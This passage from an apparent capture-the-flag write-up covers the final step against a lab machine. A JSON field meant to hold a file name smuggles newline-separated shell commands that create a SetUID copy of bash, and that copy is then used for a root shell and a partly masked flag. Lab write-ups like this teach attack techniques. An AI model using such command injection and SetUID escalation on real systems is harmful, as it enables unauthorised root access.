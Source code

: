 #### Shell

I’ll inject again, this time to create a SetUID copy of `bash`:

```

oxdf@hacky$ curl app.bigbang.htb:9090/command -d '{"command": "send_image", "output_file": "test.png\ncp /bin/bash /tmp/0xdf\nchmod 6777 /tmp/0xdf"}' -H "Content-Type: application/json" -H "Authorization: Bearer $token"
{"error":"Error reading image file: [Errno 2] No such file or directory: 'test.png\\ncp /bin/bash /tmp/0xdf\\nchmod 6777 /tmp/0xdf'"}

```

It works to get a root shell:

```

developer@bigbang:~$ /tmp/0xdf -p
0xdf-5.1#

```

And the flag:

```

0xdf-5.1# cat root.txt
c3065984************************

```